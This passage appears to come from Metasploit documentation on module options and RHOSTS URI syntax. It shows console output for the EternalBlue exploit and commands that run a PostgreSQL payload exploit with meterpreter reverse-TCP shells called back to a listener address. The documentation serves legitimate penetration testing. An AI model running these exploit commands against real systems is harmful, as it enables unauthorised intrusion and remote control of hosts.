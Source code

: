 ## Module options
Each Metasploit module has a set of options which must be set before running. These can be seen with the `show options` or `options` command:
```msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   ... etc ...


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.239    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Each Metasploit module also has _advanced_ options, which can often be useful for fine-tuning modules, in particular setting connection timeouts values can be useful:
```msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > advanced

Module advanced options (exploit/windows/smb/ms17_010_eternalblue):

   Name                    Current Setting                     Required  Description
   ----                    ---------------                     --------  -----------
   CHOST                                                       no        The local client address
   CPORT                                                       no        The local client port
   CheckModule             auxiliary/scanner/smb/smb_ms17_010  yes       Module to check with
   ConnectTimeout          10                                  yes       Maximum number of seconds to establish a TCP connection
   ... etc ...

Payload advanced options (windows/x64/meterpreter/reverse_tcp):

   Name                         Current Setting  Required  Description
   ----                         ---------------  --------  -----------
   AutoLoadStdapi               true             yes       Automatically load the Stdapi extension
   AutoRunScript                                 no        A script to run automatically on session creation.
   AutoSystemInfo               true             yes       Automatically capture system information on
   ... etc ...
```

You can see which options stilloptions to be set with the `show missing` command:
```msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > show missing

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
```

### Setting options
Traditional usage of Metasploit involves loading a module, and setting multiple options individually:
```
use exploit/linux/postgres/postgres_payload
set username administrator
set password pass
set rhost 192.168.123.6
set rport 5432
set database postgres
set lhost 192.168.123.1
set lport 5000
run
```

You can also specify multiple RHOSTS separated by spaces or with a CIDR subnet mask:
```
set rhosts 127.0.0.1 127.0.0.2
set rhosts 127.0.0.1/24
```

Example:
```
use exploit/linux/postgres/postgres_payload
run postgres://postgres:password@192.168.123.6 lhost=192.168.123.1 lport=5000 payload=linux/x64/meterpreter/reverse_tcp target='Linux\ x86_64' verbose=true
```

You can set complex options using quotes. Example:
```
set COMMAND "date --date='TZ=\"America/Los_Angeles\" 09:00 next Fri' --iso-8601=ns"
```

### URI support for RHOSTS
which allows setting multiple options at once - i.e. username, password, rport, rhost, etc.
```
use exploit/linux/postgres/postgres_payload
run postgres://administrator:pass@192.168.123.6 lhost=192.168.123.1 lport=5000
```

To preserve whitespace, regardless of the protocol, use quotes:
```
use auxiliary/admin/postgres/postgres_sql
run 'postgres://user:this is my password@192.168.1.123/database_name' sql='select version()'
```

In some scenarios it may be too troublesome to escape quotes within a password. In this scenario it is possible to still set the password option manually and use the URI argument without a password specified, the module will gracefully fallback to using the manually set password:
```
set password !@£$%^&*()"'
run smb://user@192.168.123.13
```

You can also specify multiple RHOST arguments, as well as provide additionally inlined options:
```
use scanner/smb/smb_enumshares
run smb://test:test@192.168.1.223 smb://user:password@192.168.1.223 smb://test:test@127.0.0.1 verbose=true
```

